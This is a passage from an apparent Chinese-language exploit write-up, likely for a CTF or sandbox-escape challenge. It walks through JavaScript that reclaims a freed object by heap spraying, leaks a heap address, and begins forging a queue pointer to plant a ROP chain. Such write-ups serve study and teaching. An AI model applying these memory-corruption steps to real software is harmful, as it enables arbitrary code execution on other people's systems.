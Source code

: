            await sprayTIPtrArr[i].push(BigInt(i));
       }
    
       // get the idx to see which one occupy the innerdb memory
       let evilTIIdx = (await tInstancePtr.getInt()).value;
       let evilTIPtr = sprayTIPtrArr[evilTIIdx];
       console.log("[+] the evil idx: "+hex(evilTIIdx));
    ```
3. 因为占用的内存`queue`字段被初始化为`0`，此时我们再进行`push`重新分配内存，此时可泄露堆地址：
    
    ```js
    // malloc queue ptr in freed innerdb memory;
       for(let i=0; i&lt;0x80/8; i++) {
           await tInstancePtr.push(0x41414141n+BigInt(i));
       }
    
       // await tInstancePtr.getInt();
    
       // leak the upper queue ptr, now the innerdb will be freed again
       let leakHeapAddr = -1n;
       for (let i=0; i&lt;207; i++) {
           let tmp = (await evilTIPtr.pop()).value;
           if (leakHeapAddr == -1 &amp;&amp; tmp != 0)  {
               leakHeapAddr = BigInt(tmp);
           }
       }
       console.log("[+] leak heap addr: "+hex(leakHeapAddr));
    ```
4. 有了堆地址就有了`rop`链存储的目标地址，构造`rop`链，并伪造`queue`指针将`rop`链写入到目标内存：
    
    ```js
    
       // trying to occupy again.
       for(let i=5; i&lt;10; i++) {
           for(let j=0; j&lt;78-10; j++) {
               await sprayTIPtrArr[i].push(0n)
           };
           // await sprayTIPtrArr[0].getInt();
    
           for(let j=0; j&lt;78/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;93-78/2; j++) {
               await sprayTIPtrArr[i].push(leakHeapAddr);
           }
           // await sprayTIPtrArr[0].getInt();
    
           for(let j=0; j&lt;93/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;88-93/2; j++) {
               await sprayTIPtrArr[i].push(0n);
           }
           for(let j=0; j&lt;88/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;202-88/2-1; j++) {
               await sprayTIPtrArr[i].push(0n);
           }
           // await sprayTIPtrArr[0].getInt();
    